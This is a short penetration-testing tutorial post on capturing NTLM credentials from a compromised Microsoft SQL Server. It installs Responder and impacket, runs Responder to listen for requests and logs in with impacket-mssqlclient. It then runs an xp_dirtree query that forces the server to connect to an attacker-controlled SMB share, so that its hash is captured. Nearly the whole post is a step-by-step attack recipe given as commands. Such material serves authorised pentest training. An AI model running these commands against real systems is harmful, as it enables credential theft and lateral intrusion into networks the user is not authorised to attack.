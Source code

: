 ```yaml
---
layout: post
title: "SMB Relay Attack with MSSQL xp_dirtree Query to Steal NTLM Credential"
date: 2024-01-06 07:00:00 +0700
categories: "Windows-Network-Pentesting"
---
```


## Setup Request Capturer

Tools Installation.
```
git clone https://github.com/lgandx/Responder
cd Responder/
pip3 install -r requirements.txt
```
```
sudo apt install impacket-scripts -y
```

<br/>

Run Responder to capture the requests.
```
sudo python3 Responder.py -I eth0
```

<br/>

## Execution

Login to compromised MSSQL Service with MSSQL Client.
```
sudo impacket-mssqlclient <user>:"<password>"@<target host> -p <port> -debug
```

<br/>

Run the query to steal SMB's cred after Login.
```sql
xp_dirtree '\\<attacker host>\test';
```
